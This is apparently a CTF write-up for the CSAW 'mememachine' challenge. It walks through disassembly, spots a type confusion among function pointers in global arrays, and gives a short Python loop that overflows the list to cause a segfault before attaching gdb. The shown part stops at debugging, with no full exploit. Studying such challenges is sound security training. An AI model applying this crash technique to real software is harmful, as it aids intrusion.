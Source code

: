 Check out the globals:

```
.bss:0000000000202084 ; int types_tracker
.bss:0000000000202084 types_tracker   dd ?                    ; DATA XREF: .got:types_tracker_ptro
.bss:0000000000202088 ; uint8_t counter
.bss:0000000000202088 counter         db ?                    ; DATA XREF: .got:counter_ptro
.bss:00000000002020C0 ; size_t memerz[256]
.bss:00000000002020C0 memerz          dq 100h dup(?)          ; DATA XREF: .got:memerz_ptro
.bss:00000000002028C0 ; size_t types[256]
.bss:00000000002028C0 types           dq 100h dup(?)          ; DATA XREF: .got:types_ptro
```

Looks like each array is 256 `size_t`s long. Let's check out the `checkout` method for good measure...

It gets those global lists and iterates through it, counting the number of memes. Also, it calls each function pointer and checks to make sure it's `gooder`. If it's `badder`, it'll make sure to print out `you are going to get memed on so hard with no calcium`. It calls different offsets depending on the type (because the function pointer is at different locations.

Type 0 (regular meme):
```
.text:0000000000000DA8                 add     rbx, 8
.text:0000000000000DAC                 mov     edi, [memerino+10h]
.text:0000000000000DAF                 call    qword ptr [memerino+8]
```
Type 1 (mr skeletal):
```
.text:0000000000000DC5                 add     rbx, 8
.text:0000000000000DC9                 mov     edi, [memerino+110h]
.text:0000000000000DCF                 call    qword ptr [memerino+108h]
```

Well this is just asking for type confusion... Let's give it too many memes and see what happens. Specifically, let's fill up the list with one type and then add another of the other type. I scripted that doing something like the following.

```python
for _ in range(256):
  add_meme()
add_skel()
```

My `add_skel()` function responds with `thanks mr skeletal` if no other response is specified. Then checkout to trigger the call to the function pointer.

Yay, a segfault. `method_checkout+0x3f` is `.text:0000000000000DAF                 call    qword ptr [memerino+8]`. Nice.

```
'/home/bspar/Documents/ctfs/csaw/plugin/mememachine.so(method_checkout+0x3f) [0x7f124bab9daf] mememachine.c:99\n'
```

Let's check out what it's calling... Start the program and attach your debugger to it.

```
<bspar@bspararch:~/Documents/ctfs/csaw>
zsh/2 13944 % gdb -p `pgrep ruby`
[...]
gdb-peda$ b  *method_checkout+63
Breakpoint 1 at 0x7fcc80e9bdaf: file mememachine.c, line 99.
```
